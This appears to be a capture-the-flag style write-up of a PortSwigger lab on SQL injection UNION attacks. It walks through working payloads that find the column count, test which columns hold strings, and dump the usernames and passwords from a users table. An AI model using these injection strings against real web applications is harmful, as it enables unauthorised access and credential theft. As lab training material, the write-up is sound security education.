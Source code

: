 ```yaml
---
title: PortSwigger - SQLi 5 - UNION attack, retrieving data from other tables
date: 2023-03-06
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

The database contains a new table called `users` with columns `username` and `password` inside.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

## ✅ Solution

First we need to know how many columns are returned by the query:

````text
<website>/filter?category=Pets' UNION SELECT NULL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,NULL--    # works
<website>/filter?category=Pets' UNION SELECT NULL,NULL,NULL--    # error!
````

We now know there are 2 columns. Time to test if both contain string data:

````text
<website>/filter?category=Pets' UNION SELECT 'abc',NULL--    # works
<website>/filter?category=Pets' UNION SELECT 'abc','abc'--   # works
````

We are now sure both columns contain string. We can try to extract the data in users table:

````text
<website>/filter?category=Pets' UNION SELECT username, password FROM users--
````

The usernames and passwords are displayed.
